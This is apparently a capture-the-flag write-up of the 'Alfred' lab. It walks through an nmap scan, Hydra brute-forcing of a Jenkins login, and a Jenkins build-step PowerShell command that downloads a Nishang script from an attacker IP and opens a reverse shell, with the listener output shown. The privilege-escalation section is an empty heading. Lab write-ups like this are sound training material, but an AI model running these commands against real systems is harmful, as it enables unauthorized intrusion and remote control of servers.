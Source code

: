 # Alfred
* Exploit a common misconfiguration on a widely used automation server (Jenkins).
  * Jenkins is used to create continuous integration/continuous development pipelines that allow developers to automatically deploy their code once they made changes to it).
* Use an interesting privilege escalation method to get full system access.
## Initial Access
### nmap scan to determine open TCP ports.
```
nmap -sT -sV -p- -oN TARGET_IP_scan.nmap TARGET_IP
```
```
Not shown: 65532 filtered ports
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 7.5
3389/tcp open  ms-wbt-server Microsoft Terminal Service
8080/tcp open  http          Jetty 9.4.z-SNAPSHOT
```
### Identify username and password for login panel.
> It always is good practice to Google for default credentials before attempting any brute force attack. This will save a huge amount of time.
#### 1. Send login attempt via Burpsuite.
* Target > Project > Scope > Include "http://TARGET_IP:8080" in scope.
* Ensure **Intercept** is on.
* Open inbuilt Chromium browser to intercept requests.
* Proxy any username and password via login panel.
* Forward request to **Repeater**.
* **Send** to see the response.

#### 2. Brutefore login panel using Hydra.
* Login or Wordlist for Usernames = `/usr/share/wordlists/rockyou.txt`.
* Password or Wordlist for Passwords = `/usr/share/wordlists/rockyou.txt`.
* IP address or Hostname = TARGET_IP.
* HTTP Method (POST/GET) = `http-form-post`.
  * **Inspect Element** in browser.
  * **Network** tab of developer tools.
  * Attempt a login.
  * GET or POST Method displayed in request.
```
POST /j_acegi_security_check HTTP/1.1
```
* Directory/Path to the Login Page = `/j_acegi_security_check`.
  * Request header "Filename" attribute.
```
/j_acegi_security_check
```
* Request Body for Username/Password = `j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in`
  * **Inspect Element** in browser.
  * **Network** tab of developer tools.
  * Attempt a login.
  * Right click on request > **Edit and Resend**.
  * **Request Body** contains entered username and password.
  * Grab entire request.
```
j_username=12345&j_password=12345&from=%2F&Submit=Sign+in
```
  * Replace entered username with `^USER^ to tell Hydra to enter words from wordlist in this position of the request.
  * Replace entered password with ^PASS^.
* Way to Identify Failed Attempts = `Invalid username or password`.
  * Attempt to login using incorrect credentials.
  * Presented with "Invalid username or password" text.
  * Add this to Hydra command.
```
hydra -L /usr/share/wordlists/rockyou.txt -P /usr/share/wordlists/rockyou.txt TARGET_IP -s 8080 http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^:Invalid username or password"
``` 
* Hydra bruteforces the login and returns the credentials.
```
[8080][http-post-form] host: 10.10.88.127   login: Admin   password: admin
[8080][http-post-form] host: 10.10.88.127   login: admin   password: admin
1 of 1 target successfully completed, 2 valid passwords found
```
### Use feature of Jenkins server to get reverse shell.

#### 1. Jenkins project Command field allows execution of commands on underlying system.
* **Job** > **Project** > **Configure**.
* **Build** section has text field where Windows commands are executed.
#### 2. Add PowerShell to exploitable field.
```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.29.136:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.29.136 -Port 1234
```
  * PowerShell script connects to standard netcat listening port when using "-Reverse" switch.
* **Save** project.
#### 3. Clone [Nishang powershell scripts from GitHub]([https://github.com/samratashok/nishang).
```
mkdir tools
cd tools
git clone https://github.com/samratashok/nishang/
cd nishang/Shells
```
#### 4. Create http server to serve Nishang Invoke-PowerShellTcp script.
```
python3 -m http.server
```
#### 5. Create listener to catch the reverse shell.
```
nc -lvnp 1234
```
#### 6. Use Jenkins **build Now** feature to download and run Nishang script.
* PowerShell uploaded to target.
```
10.10.88.127 - - [23/Feb/2024 15:27:19] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
```
#### 7. Reverse shell caught by listener.
```
Connection from 10.10.255.193 49253 received!
Windows PowerShell running as user bruce on ALFRED
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Program Files (x86)\Jenkins\workspace\project>whoami
alfred\bruce
```
* "user.txt" is located in "C:\users\bruce\desktop" directory.
## Switching shells
## Privilege escalation
